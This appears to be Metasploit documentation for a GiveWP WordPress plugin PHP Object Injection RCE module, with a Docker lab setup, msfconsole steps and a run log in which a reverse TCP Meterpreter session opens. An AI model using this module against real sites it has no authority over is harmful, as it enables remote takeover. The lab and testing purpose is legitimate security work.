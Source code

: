 ## Vulnerable Application

This Metasploit module exploits an unauthenticated PHP Object Injection vulnerability in the
GiveWP plugin for WordPress (versions <= 3.14.1).
The vulnerability is present in the 'give_title' parameter, allowing attackers to inject a crafted
PHP object leading to remote code execution (RCE) when combined with a suitable POP chain.

## Setup

1. **Docker Compose Setup**: Use the following `docker-compose.yml` file to set up a vulnerable WordPress environment.

```yaml
services:
  db:
    image: mysql:8.0.27
    command: '--default-authentication-plugin=mysql_native_password'
    restart: always
    environment:
      - MYSQL_ROOT_PASSWORD=somewordpress
      - MYSQL_DATABASE=wordpress
      - MYSQL_USER=wordpress
      - MYSQL_PASSWORD=wordpress
    expose:
      - 3306
      - 33060

  wordpress:
    image: wordpress:6.3.2
    ports:
      - "80:80"
    restart: always
    environment:
      - WORDPRESS_DB_HOST=db
      - WORDPRESS_DB_USER=wordpress
      - WORDPRESS_DB_PASSWORD=wordpress
      - WORDPRESS_DB_NAME=wordpress
volumes:
  db_data:
```

2. **Download and Install Vulnerable GiveWP Plugin**:
- Download the plugin: [GiveWP 3.14.1](https://downloads.wordpress.org/plugin/give.3.14.1.zip)
- Unzip the plugin and copy it to the Docker container:
```bash
docker cp give docker-wordpress-1:/var/www/html/wp-content/plugins
```
- Access the WordPress instance at `http://localhost` and activate the GiveWP plugin via the admin dashboard.

3. **Create a Donation Form**:
  - Navigate to the "Forms" section within the GiveWP plugin and click on "Add Form."
  - Select any form.
  - Configure the form as needed, publish it.

## Options

No specific options need to be configured.

## Verification Steps

1. Start `msfconsole`.
2. Use the module with `use exploit/multi/http/wp_givewp_rce`.
3. Set `RHOSTS`, `RPORT`, and the necessary WordPress-specific options.
4. Run the exploit.
5. Gain a Meterpreter session.

## Scenarios

### GiveWP Plugin version: 3.14.1 (Dockerized WordPress Version 6.3.2)

Using `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```bash
msf6 > use exploit/multi/http/wp_givewp_rce 
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/wp_givewp_rce) > run http://127.0.0.1:8888

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.3.2
[+] Detected GiveWP Plugin version: 3.14.1
[+] The target appears to be vulnerable.
[+] Successfully retrieved form list. Available Form IDs: 8, 10, 13
[*] Using Form ID: 13 for exploitation.
[*] Sending stage (3045380 bytes) to 172.24.0.3
[*] Meterpreter session 1 opened (192.168.1.36:4444 -> 172.24.0.3:51272) at 2024-08-27 22:11:22 +0200

meterpreter > sysinfo 
Computer     : 172.24.0.3
OS           : Debian 11.8 (Linux 5.15.0-119-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
